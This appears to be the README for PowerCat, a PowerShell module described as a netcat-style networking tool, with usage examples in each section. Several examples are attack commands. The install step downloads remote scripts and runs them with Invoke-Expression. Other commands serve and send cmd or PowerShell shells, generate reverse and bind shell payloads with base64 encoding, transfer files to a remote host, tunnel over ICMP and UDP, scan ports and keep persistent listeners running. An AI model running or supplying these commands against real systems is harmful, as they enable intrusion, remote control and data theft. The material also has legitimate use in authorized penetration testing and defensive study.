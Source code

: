 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded .psm1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    New-PowerCat
    
    -Listener       # Listen for a connection.                            [Switch]
    -Client         # IPv4 address of a listener to connect to.           [String]
    -Relay          # Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           # Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           # The port to connect to or listen on.                [Int]
    -Execute        # Execute a process.                                  [String]
    -PowerShell     # Execute Powershell.                                 [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
    -Input          # Filepath (string), byte array, or string.           [Object]
    -OutputType     # Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     # Output File Path.                                   [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -Repeat         # Restart after disconnecting.                        [Switch]
    -Payload        # Generate payload.                                   [Switch]
    -Encoded        # Base64 encode payload.                              [Switch]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
```powershell
    # Basic Listener:
    New-PowerCat -Listener -Port 443
        
    # Basic Client:
    New-PowerCat -Client 10.1.1.1 -Port 443
        
    # Basic Client, Output as Bytes:
    New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes
```
File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
```powershell
    # Send File:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    # Recieve File:
    New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
```powershell
    # Serve a cmd Shell:
    New-PowerCat -Listener -Port 443 -Execute cmd
        
    # Send a cmd Shell:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    # Serve a shell which executes powershell commands:
    New-PowerCat -Listener -Port 443 -PowerShell
```
UDP and ICMP
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    New-PowerCat -Listener -Port 8000 -Mode Udp
        
    # Send Data Over ICMP:
    New-PowerCat -Listener -Port 8000 -Mode Icmp
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # TCP Listener to TCP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay tcp:9000
```
Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCat -Listener -Port 8000 -Execute cmd -Payload -Encoded
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
```
